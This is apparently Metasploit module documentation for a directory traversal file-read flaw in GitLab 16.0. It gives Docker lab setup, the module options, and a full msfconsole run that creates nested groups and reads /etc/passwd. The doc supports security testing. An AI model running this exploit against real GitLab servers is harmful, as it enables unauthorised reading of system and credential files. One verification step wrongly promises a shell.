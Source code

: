 ## Vulnerable Application

Gitlab version 16.0 contains a directory traversal for arbitrary file read as the gitlab user.
In order to exploit this vulnerability, a user must be able to create a project and groups.
When exploiting this vulnerability, a group (or subgroup under the group) must be created
for each level of the traversal. If the depth is 11 for the dir traversal, then a group
and 10 sub-groups will be created. Lastly a project is created for that subgroup.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on Docker image of gitlab 16.0

### Install

A docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options

### DEPTH

Depth for Path Traversal (also groups creation), 11 seems pretty safe but it may work with less. Defaults to `11`

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker Gitlab 16.0

```
msf6 > use auxiliary/scanner/http/gitlab_subgroups_file_read
[*] Using auxiliary/scanner/http/gitlab_subgroups_file_read
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set username root
username => root
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set password r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
password => r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > exploit

[+] CSRF Token: wYYZ0Q1TnrrZmqwpAk707emZcXsIlzMawZ7s-HycVHmo668JVMqDb-R8NCVTVEMNlDAWbrIwngXKSH2wWtURzQ
[*] Creating 11 groups
[*] Creating group: OqJVwVlC with parent id: 
[+] CSRF Token: 8X7OT15TxpI36rOIu-ghgVbodK8fRl4Lz-3fqaNH_MmYE3iXB8rbRwoMK4Tq8pZhK0ETuqXh8xTEO07hhQ65fQ
[*] Creating group: 5hYTGpp8 with parent id: 2
[+] CSRF Token: PNnNU0R5iB-57xVW20dBD0FKfb1yMw15tjvHCZICyG9VtHuLHeCVyoQJjVqKXfbvPOMaqMiUoGa97VZBtEuN2w
[*] Creating group: XlpSkZKQ with parent id: 3
[+] CSRF Token: nS0eZJb7gVQM6-HYRPpj14MBhIq4WoObZOFASPC_F1b0QKi8z2KcgTENedQV4NQ3_qjjnwL9LoRvN9EA1vZS4g
[*] Creating group: KQCk8adK with parent id: 4
[+] CSRF Token: yr8EaL1nQdm9aIhpGca1Ay8u2m3oLGqAk_BO23hw02Sj0rKw5P5cDICOEGVI3ALjUoe9eFKLx5-YJt-TXjmW0A
[*] Creating group: xg9hUYPo with parent id: 5
[+] CSRF Token: 5wYo0n-rkMKFMRGlFyjN6knw71WIBDIUUjyLLDSE9UmOa54KJjKNF7jXialGMnoKNFmIQDKjnwtZ6hpkEs2w_Q
[*] Creating group: cNrX6LHf with parent id: 6
[+] CSRF Token: Z4IipgGhLQixQu8cbyNznk2pIj0udxMCgGKHaEzqkw4O75R-WDgw3YykdxA-OcR-MABFKJTQvh2LtBYgaqPWug
[*] Creating group: Mg4MESRy with parent id: 7
[+] CSRF Token: 4g209zNkQLg2Mf4RPMsSOjIGD-f2jaJrP_Fa4iYQRLaLYAIvav1dbQvXZh1t0aXaT69o8kwqD3Q0J8uqAFkBAg
[*] Creating group: 7b2cIgyZ with parent id: 8
[+] CSRF Token: MbKcsl5RuiynfU8JyJ1iT_mBKKqfAWpuM7LEVjTTmPBY3ypqB8in-Zqb1wWZh9WvhChPvyWmx3E4ZFUeEprdRA
[*] Creating group: EDkbB7Mw with parent id: 9
[+] CSRF Token: FbcBF0FcEy1vhn-ahOLHgz5wPx952kmwDNT2Qfte-Ud82rfPGMUO-FJg55bV-HBjQ9lYCsN95K8HAmcJ3Re88w
[*] Creating group: 4L2kbTKx with parent id: 10
[+] CSRF Token: iSsK-buEQzOnykZ_DmtRo2_4RV6HSix8nLEpDN9WeSjgRrwh4h1e5pos3nNfceZDElEiSz3tgWOXZ7hE-R88nA
[*] Creating group: UrW6NUYW with parent id: 11
[+] CSRF Token: _Md66xoUbGn3lOKAkgDR9p30KKPH6sDEBckrOfE8LNaVqswzQ41xvMpyeozDGmYW4F1Ptn1NbdsOH7px13VpYg
[*] Creating project 8tXCf26j
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230529000533_default_127.0.0.1_Gitlabfile_212326.txt
[*] Deleting group OqJVwVlC
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

